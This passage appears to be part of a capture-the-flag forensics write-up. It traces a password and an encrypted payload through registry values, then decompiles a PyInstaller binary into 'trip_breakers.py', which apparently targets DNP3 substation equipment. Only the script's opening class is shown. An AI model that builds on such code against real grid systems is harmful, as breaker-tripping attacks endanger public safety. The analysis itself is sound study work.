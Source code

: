 ```text
❯ cat Registry/SOFTWARE_ROOT.json | jq | grep -i "tabletpc..bell" -A 10 -B 3
              "LastWriteTimestamp": "/Date(1617231964815)/",
              "SubKeys": [
                {
                  "KeyPath": "ROOT\\Microsoft\\Windows\\TabletPC\\Bell",
                  "KeyName": "Bell",
                  "LastWriteTimestamp": "/Date(1617231990846)/",
                  "SubKeys": [],
                  "Values": [
                    {
                      "ValueName": "Blast",
                      "ValueType": "RegSz",
                      "ValueData": "M4RK_MY_W0Rd5",
                      "DataRaw": "TQA0AFIASwBfAE0AWQBfAFcAMABSAGQANQAAAA==",
                      "Slack": ""
❯ cat Registry/SOFTWARE_ROOT.json | jq | grep -i "wbem..tower" -A 10 -B 3
              "Values": []
            },
            {
              "KeyPath": "ROOT\\Microsoft\\Wbem\\Tower",
              "KeyName": "Tower",
              "LastWriteTimestamp": "/Date(1617231936549)/",
              "SubKeys": [],
              "Values": [
                {
                  "ValueName": "Off",
                  "ValueType": "RegSz",
                  "ValueData": "\\EOTW\\151.txt",
                  "DataRaw": "XABFAE8AVABXAFwAMQA1ADEALgB0AHgAdAAAAA==",
                  "Slack": ""
```

So, turns out Powershell actually exists on Linux -- I used it to evaluate these subcommands. The more you know!  It decrypts EOTW\151.txt with "M4RK_MY_W0Rd5" as the password and then runs the result, so I run it to decrypt fate.exe. I opened it up in Binary Ninja, cried a little bit, and then realized it was a package python script with PyInstaller. I hit it with [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) and uncompyle6 to get this lightly modified python file. 

```python
# uncompyle6 version 3.7.4
# Python bytecode 3.6 (3379)
# Decompiled from: Python 3.6.0 (default, Mar  3 2017, 23:25:37) 
# [GCC 5.3.0]
# Embedded file name: trip_breakers.py
import struct, socket, time, sys
from crccheck.crc import Crc16Dnp
OPT_1 = 3
OPT_2 = 4
OPT_3 = 66
OPT_4 = 129

class Substation:

    def __init__(self, ip_address, devices):
        self.target = ip_address
        self.devices = []
        self.src = 50
        self.transport_seq = 0
        self.app_seq = 10
        for device in devices:
            self.add_device(device)

        self.connect()

```